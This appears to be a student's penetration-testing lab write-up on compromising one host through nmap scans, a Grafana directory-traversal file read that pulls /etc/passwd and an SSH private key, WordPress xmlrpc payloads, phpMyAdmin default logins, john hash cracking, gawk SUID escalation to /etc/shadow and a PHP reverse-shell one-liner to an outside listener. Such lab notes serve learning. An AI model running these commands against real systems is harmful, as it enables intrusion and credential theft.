

## Target
- Ip address: 172.31.195.41

## Enumeration / Reconnaisance
- nmap  : Who are you, What do you do 
    1. allscan : no need to raise min-rate 3000
`nmap -p- --max-retries 1 -sS -Pn -n 172.31.195.41 -oA allscan` : max retries - really fast, Syn scan  
- normal scan 
SYN>
<ACK+SYN
ACK> -session connected
>><< - comfirm, disconnect 

- syn scan : fast in total  
SYN>
<ACK+SYN
RST+ACK> - confirm, disconnect 

    2. topports 1000 : really fast 
`nmap --top-ports 1000 -Pn -n 172.31.195.41 -oA topports` 
    - `cat allscan.nmap | tail -7 | head -5 | cut -d '/' -f 1 | tr '\n' ','`
        
    3. detailed : banner grabbing = not syn(stealth) scan 
`nmap -p 22, -sV -sC -Pn -n 172.31.195.41 (--open) -oA detailed`
    - remain at 80% but it's okay wait for a while 
        FTP : vsftpd 3.0.5
            - when? 2021 
            - and searchsploit, google(exploit github analysis)
                - 2.x = vulns but 3.x is stable
            - but anonymouse login default setting? X
            - 3.0.5 default credential search (just any local user e.g. kali:kali ) 
            - root:password simple X 
                - I need to find the way to get in > 
            - file upload/download
                - check when I upload a file, if it's able to get there in another service.   
            - ls > dir permission 
        SSH : OpenSSH 8.9p1 Ubuntu  
            -2022 newer one, opensouce veryfew, 
                - if low < 7.7 = gathering user name list bruteforce  or msfconsole ssh_enumeration 
                    < 6.6 - SFTP, RCE 
            - but SSH brute force later when I find valid userlist? (rockyou.txt), or seclist credentials rightaway 
            - simple credentials - root:root, root:password
            - get publickey  

        ppp: ? 3000 http I think  what is that? 
        http 8000 Apache httpd 2.4.56 
            - when? 2023,  
            wordpress 6.3.1 
            -  2023 x 
            - let's go wpscan or nmap http scripts 
            function : dev blog 
            - robots.txt, /wp-admin  

            8080 Apache httpd 2.4.57 
            function: phpmyadmin 
                - version 
            - whatservice?

    - if you couldn't find out the version, you do manually connect with nc or telnet and get 

    - scripts : e.g. ssh-auth, /usr/share/nmap/scripts/http* 
        - also you can download custom scripts 
    - known vulns  > searchsploit or google (github analysis) 

enum and exploit specific services
1. SSH
    1. brute forcing? SSH?
    2. easy creds root:root ? 

2. http
#### ppp 3000 
1. what function do you? ctrl+U : webapplication info\
- I think it does : 
    - dashboard monitoring solution for applications(DB, Azure, SIEM) with bar chart ,etcc.
    - version : Grafana v8.3.0 
    - default creds : admin:admin 
    - known vulns : Directory travarsal and file read.(unauthorized) > ssh key or creds or conf file or php source code, etc. 
        - it works > /etc/passwd file read possible
            - miller > userlist.txt
            - curl --path-as-is http://172.31.179.77:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
            - /etc/group , /etc/os-release, OK > public key path guess possible (ubuntu default main directory referenced)
            - curl --path-as-is http://172.31.179.77:3000/public/plugins/alertlist/../../../../../../../../home/miller/.ssh/id_rsa > id_rsa 
                - ssh miller get > now what we need to do is post-exploitation= enum(manual/auto) and privilege escalation 

2. wappayler 
3. robots.txt 
4. dir bruteforcing - go buster
    - 
        - interesting 
    - file extension -x 
5. OWASP common vulns
        -LFI
        - auto  

#### 8000 - toorg dev
1. function : internal dev page, board system? write post? 
    - WordPress 6.3.1
        - wpscan, wordpress related know vulns and assessment manually 
        wpscan --url http://172.31.179.77:8000 --passwords pass.txt
            - Xmlrpc ? success when did you apply 

            - agressive detection or something else? , how about plugin or theme ? 
            - how to get xmlrpc? remote procedure call to communicated between other systems.- need to disabled superseded by the Wordpress REST API,
            that's why there are many xml pages 
            keeping plugins themes up to dates is essential
            sends creds in request, allow them to do Brute forcing, can do publish a post, edit , delte a post, upload file..  
    > barely get response

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
can brute force to Wordpress when you know the username(wpscan> valid username enum possible), but hydra can also with HTTP
but I know root:toorg > file upload 

<?xml version='1.0' encoding='utf-8'?>
<methodCall>
<methodName>wp.uploadFile</methodName>
<params>
    <param><value><string>1</string></value></param>
    <param><value><string>root</string></value></param>
    <param><value><string>toorg</string></value></param>
    <param>
        <value>
            <struct>
                <member>
                    <name>name</name>
                    <value><string>filename.jpg</string></value>
                </member>
                <member>
                    <name>type</name>
                    <value><string>image/jpeg</string></value>
                </member>
                <member>
                    <name>bits</name>
                    <value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
                </member>
            </struct>
        </value>
    </param>
</params>
</methodCall>

but I can't access 117 stored file path > skip 

we got left
    robots.txt > /wp-admin,
        - http://172.31.226.117:8000/wp-login.php?redirect_to=http%3A%2F%2F172.31.179.77%3A8000%2Fwp-admin%2F&reauth=1
        redirect to this, can't access anymore. 
        > not redirected one first  
    gobuster
        - possible site :
            .bashrc 
                - what does it mean?
            atom
                
            feed
            page1
            rdf
            rss
            
        - useless.

    /wp-admin can't go further. 
        

#### 8080
phpmyadmin first
    - maybe
        - version disclosure
            - SSL is not being used 
            - database server: mysql 5.7.43
            - web server OS : debian
            - php version 8.2.8
            - phpmyadmin : 5.2.1 
        - default credentials  root:x, root:root, root:password  > root:password 
            - let's findout the creds > SSH or FTP
                - databse: wordpress  > table : wp_users > get: root:$P$Bo1Vs2UekFBzZrbz7Mj365gX0L4bBl0 , miller-dev@troog.tor.onion
                    - hash-identifier and john
                        - MD5 wordpress crackable > --fortmat=Raw-MD5 or md5cypt
                        `john --wordlist=/usr/share/wordlists/rockyou.txt rootMD5.txt --pot=plainpw.output`
                            - it takes time and CPU usage fully, lag > but wait for a bit > root:toorg > FTP or SSH or Web or etc + add creds list

                    - miller-dev > add to userlist.txt

                    > I think it's done for assessment there's no interesting gobuster results : `gobuster dir -u http://172.31.195.41:8080/ -w /usr/share/dirb/wordlists/common.txt -t 20 -o gobuster.output2`
                    that's enough

## Exploitation and Initial access

## Post-Exploitation
got miller's shell > 
- there's just only miller user no user to pivot 
1. manual 
- what function are you? what do you do? I don't know. are you just user?
    - OS : ubuntu 20.04, 
    - cloud in AWS EC2 with Amazon virtualization
    - 
- not in docker or jail shell. 

- in the same networks, I think I can reach toorg dev website redirection > /wp-admin , login, Xmlrpc file read possible 
http://172.31.226.117:8000/wp-admin
http://172.31.226.117:8000/wp-login.php
> no answer.

cron 
--config=/etc/grafana/grafana.ini --pidfile=/run/grafana/grafana-server.pid
/etc/vsftpd.conf
containerd? 
/sbin/agetty?

is it possible to edit crontab -e ?

find / -type f -perm -4000 2>/dev/null
    - gawk 
    LFILE=/etc/shadow
    gawk '//' "$LFILE"
find / -type f -perm 0777 2>/dev/null

cron.d > new up to date = not running

conf file 
log file 
> creds 

there's no /var/www/html 
- I thought there's another host for webserver(wordpress), but it's not. 
    - because ports 8000 8080 is running and 
    - there's www-data web server account.

    > web config or php source code  
        - find / -name 'wordpress' 2>/dev/null 
        > `cd /root` : wordpress directory right? (wp-config.php)
            - is it possible to get there with non-root user?
            - I can read all of source code 
            - wordpress DB ? creds? 
            - mysql DB password  
                - mysql 5.7
                - root:password
                - wordpress:wordpress
                - 8000 phpmyadmin 
                - but it's not running locally...? 
                    - I did  `systemctl --type=service --state=running`, `dpkg --list`, but I can't see > maybe in docker? need to see default setting 
                    
                     
            ./docker-compose.yml
            ./wp-config-docker.php
            ./wp-config.php

2. auto
/dev/shm/linpeas.sh Sun Jul 14 22:52:02 UTC 2024
- actually, it's applied on each user 
     gawk SUID
    - I can read file, I can write file, ...
        - /etc/shadow, root hash get $1$BcBHqupt$IsJVqcoWOKszdTQODEn0H1 > try cracking > MD5(Unix) crackable
        > john --wordlist=/usr/share/wordlists/rockyou.txt hash
            - root:larissa
    - if I can write, /etc/shadow or /etc/passwd > add user
LFILE=/root/xmlrpc.php
gawk -v LFILE=$LFILE 'BEGIN { print "<?php echo \'123\' ?>" > LFILE }'
    - problem is I cuoldn't escape single quote in single quote with Bash shell
    - you can \x27 hex ASCII to escape 
    - e.g. `echo -e 'begin with this \x27123\x27 end'`
    - another case is the same : gawk -v LFILE=$LFILE 'BEGIN { print "<?php echo \x27123\x27 ?>" > LFILE }'
    - just php web oneliner shell > and get revshell with Burpsuite.
        nc -h 2>&1 
        python3, php, curl, perl, etc
            - cmdrevshell: php -r '$sock=fsockopen("10.8.0.129",1234);exec("sh <&3 >&3 2>&3");'
                - need URL encoding
                - www-data got > fully tty shell > but it's another host.
            - phpfileshell: or you can wget stable revshell.php and execute

### Review & Remind
1. 8080 phpmyadmin default password trial
    - success : get root:toorg creds 
        - but couldn't use to anywhere
    - even though if not, I can find creds as miller in /root/ (wordpress default root directory)
        - grep -ri pass* /root
    
2. 8000 toorg dev
    - I couldn't access the further to the another redirection domain  

3. 3000 Grafana dashbaord
    - found default creds
    - even though if not, known vulns = file read (Unauthenticated)
        - /etc/passwd : valid user enum
        - /home/miller/.ssh : publickey get
            - got miller shell 
                - SUID manual or auto - gawk
                - file read, file write possible - /etc/shadow
                    - root password MD5 crackable
                        - root got

